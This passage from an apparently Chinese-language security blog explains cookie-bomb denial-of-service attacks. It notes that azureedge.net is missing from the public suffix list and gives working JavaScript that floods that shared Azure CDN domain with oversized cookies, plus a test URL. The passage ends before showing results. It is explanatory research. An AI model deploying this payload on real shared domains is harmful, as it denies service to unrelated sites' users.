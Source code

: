 這有個專有名詞，叫做 [CPDoS（Cache Poisoned Denial of Service）](https://cpdos.org/)，而且因為是利用快取的關係，所以其實跟 cookie bomb 沒什麼關係了，你從自己電腦直接發起攻擊也可以，不需要透過 cookie。

再來我們來看第一點：「有沒有可能這個地方很好找？」。

## 找到輕易設置 cookie 的地方

有什麼地方可以讓我們輕易設置 cookie，達成 cookie bomb 呢？有，那就是像之前所提過的共用的 subdomain，像是 `*.github.io` 這一種。

可是這種的不是都在 public suffix list 裡面了嗎？沒有辦法設置 cookie。

只要找到沒有在裡面的就好啦！

不過這其實也不是件容易的事情，因為你會發現你知道的服務幾乎都已經註冊了，例如說 GitHub、AmazonS3、Heroku 以及 Netlify 等等，都已經在上面了。

不過我有找到一個沒在上面的，那就是微軟提供的 Azure CDN：azureedge.net

不知道為什麼，但這個 domain 並不屬於 public suffix，所以如果我自己去建一個 CDN，就可以執行 cookie bomb。

## 實際測試

我用來 demo 的程式碼如下，參考並改寫自[這裡](https://github.com/wrr/cookie-bomb/blob/master/bomb.html)：

``` js
const domain = 'azureedge.net'
const cookieCount = 40
const cookieLength = 3000
const expireAfterMinute = 5
setCookieBomb()

function setCookie(key, value) {
  const expires = new Date(+new Date() + expireAfterMinute * 60 * 1000);
  document.cookie = key + '=' + value + '; path=/; domain=' + domain + '; Secure; SameSite=None; expires=' + expires.toUTCString()
}

function setCookieBomb() {
  const value = 'Boring' + '_'.repeat(cookieLength)
  for (let i=0; i<cookieCount; i++) {
    setCookie('key' + i, value);
  }
}
```

接著在 Azure 上面上傳檔案然後設置一下 CDN，就可以得到一個自訂的網址：https://hulitest2.azureedge.net/cookie.html

點了之後就會在 `azureedge.net` 上面設置一堆垃圾 cookie：
